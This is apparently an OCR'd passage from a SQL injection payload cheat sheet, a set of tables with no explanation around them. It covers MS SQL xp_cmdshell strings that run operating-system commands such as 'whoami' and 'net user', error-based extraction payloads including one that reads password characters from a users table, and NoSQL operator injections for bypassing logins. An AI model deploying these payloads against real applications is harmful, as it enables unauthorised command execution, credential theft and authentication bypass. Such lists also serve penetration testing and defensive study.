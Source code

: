 | Payloads |
|---|
| 1. ' OR master.dbo.xp_cmdshell('whoami') -- (MS SQL) |
| 2. ' OR xp_cmdshell('net user') -- (MS SQL) |
| 3. ' OR sys.dm_exec_sql_text(0x[hex]) -- (SQL Server) |
| 4. ' OR pg_current_query() -- (PostgreSQL) |
| 5. ' OR pg_backend_pid() -- |
| 6. ' OR extractvalue(1,concat(0x7e,version(),0x7e)) -- (MySQL) |
| 7. ' OR user() -- (MySQL) |
| 8. ' OR database() -- |
| 9. ' OR @@hostname -- |
| 10. ' OR @@server_name -- |

---

### 7. **Using Conditional Errors for Data Extraction**
*Trigger errors to reveal data.*

| Payloads |
|---|
| 1. ' AND (SELECT 1/0) -- |
| 2. ' AND (SELECT convert(int, (select @@version))) -- |
| 3. ' AND (SELECT count(*) FROM non_existing_table) -- |
| 4. ' AND (SELECT 1 FROM dual WHERE 1=2) -- |
| 5. ' AND (SELECT user() LIKE 'admin') -- |
| 6. ' AND (SELECT substring(password, 1, 1) FROM users LIMIT 1)='a' -- |
| 7. ' AND (SELECT version())='5.7.29' -- |
| 8. ' AND (SELECT count(*) FROM information_schema.tables) > 0 -- |
| 9. ' AND (SELECT 1/NULL) -- |
| 10. ' AND (SELECT 1/0) -- |

---

### 8. **Leveraging SQL Injection in JSON/NoSQL Contexts**
*Use injection payloads targeting JSON queries or NoSQL databases.*

| Payloads |
|---|
| 1. {"$where": "this.username=='admin'"} -- |
| 2. {$gt: ""} || this.password -- |
| 3. {"$regex": "admin"} -- |
| 4. {$ne: null} -- |
| 5. {"$or": [{"username": "admin"}, {"password": "any"}]} -- |
| 6. "$ne": "" -- |
| 7. {"$where": "sleep(5)"} -- |
